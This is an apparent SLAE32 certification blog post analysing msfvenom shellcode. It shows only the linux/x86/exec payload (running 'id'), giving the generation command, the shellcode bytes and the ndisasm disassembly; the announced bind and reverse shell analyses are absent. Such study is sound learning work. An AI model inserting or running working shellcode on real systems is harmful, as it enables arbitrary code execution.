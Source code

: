 ```yaml
---
title: SLAE32 - Assignment#5 [Shellcode Analysis]
author: bigb0ss
date: 2021-04-25 23:53:00 +0800
categories: [SLAE32, Assignment_5_Analysis]
tags: [slae32, assembly, x86, Shellcode Analysis]
image: /assets/img/post/slae32/slae32.png
---
```


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#5 Github](https://github.com/bigb0sss/SLAE32)

# Assignement #5 
* Take up at least 3 shellcode samples created using msfpayload for linux/x86
* Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
* Present your analysis

# Msfpayload Shellcode Analysis
Today I will analyze the following shellcodes generated by the msfpayload, specifically for linux/x86:
* linux/x86/exec - Execute an arbitrary command
* linux/x86/shell/bind_tcp - Spawn a command shell (staged). Listen for a connection (Linux x86)
* linux/x86/shell/reverse_tcp - Spawn a command shell (staged). Connect back to the attacker

# 1) linux/x86/exec
This msfpayload will execute an arbitrary command that you add while creating a payload. Let's create the payload with the linux command `id`.

```bash
# msfvenom -p linux/x86/exec CMD=id -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 38 bytes
Final size of c file: 185 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00\x00\x69"
"\x64\x00\x57\x53\x89\xe1\xcd\x80";
```

Then, we will use `ndisasm` - the Netwide Disassembler - to disassemble the created shellcode. 

```console
# echo -ne "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00\x00\x69\x64\x00\x57\x53\x89\xe1\xcd\x80" | ndisasm -b 32 -

00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E803000000        call 0x20
0000001D  696400575389E1CD  imul esp,[eax+eax+0x57],dword 0xcde18953
00000025  80                db 0x80


### echo:
-n : Do not output the trailing newline
-e : Enable interpretation of backslash escapes

### ndisasm
-b : Set the processor mode
```

Let's analyze the disassembled payload.

![image](/assets/img/post/slae32/assignment5/01.png)



<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#5 Github](https://github.com/bigb0sss/SLAE32)